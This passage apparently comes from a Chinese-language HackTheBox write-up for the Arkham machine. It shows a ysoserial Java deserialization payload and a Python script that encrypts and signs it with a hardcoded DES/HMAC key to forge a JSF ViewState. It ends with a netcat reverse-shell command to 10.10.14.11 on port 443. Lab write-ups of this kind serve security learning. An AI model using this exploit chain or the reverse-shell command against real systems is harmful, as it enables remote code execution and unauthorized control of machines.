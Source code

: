 使用 ysoserial 来生成 ping 命令的 payload。

```
java -jar ./ysoserial.jar BeanShell1 'ping 10.10.14.14' > text
```

![截图](9628690a353c4c55d8f30f8b90afe108.png)

生成成功，但是我需要将其放入 python 脚本当中进行调用.

安装模块 pip install pycryptodome.

```
import requests
import subprocess
import sys
from base64 import b64encode
from Crypto.Cipher import DES
from Crypto.Hash import SHA, HMAC
from os import devnull
from urllib.parse import quote_plus as urlencode


with open(devnull, 'w') as null:
    payload = subprocess.check_output(['java', '-jar', '/root/hackthebox/Machines/Arkham/ysoserial-0.0.6-SNAPSHOT-BETA-all.jar', sys.argv[1], sys.argv[2]], stderr=null)

pad = (8 - (len(payload) % 8)) % 8
padded = payload + (chr(pad)*pad).encode()

d = DES.new(b'JsF9876-', DES.MODE_ECB)
enc_payload = d.encrypt(padded)
sig = HMAC.new(b'JsF9876-', enc_payload, SHA).digest()
viewstate = b64encode(enc_payload + sig)

```

[localhost]: PS C:\Users\Batman\Documents> whoami
[localhost]: PS C:\Users\Batman\Documents> \windows\System32\spool\drivers\color\n.exe -e cmd 10.10.14.11 443 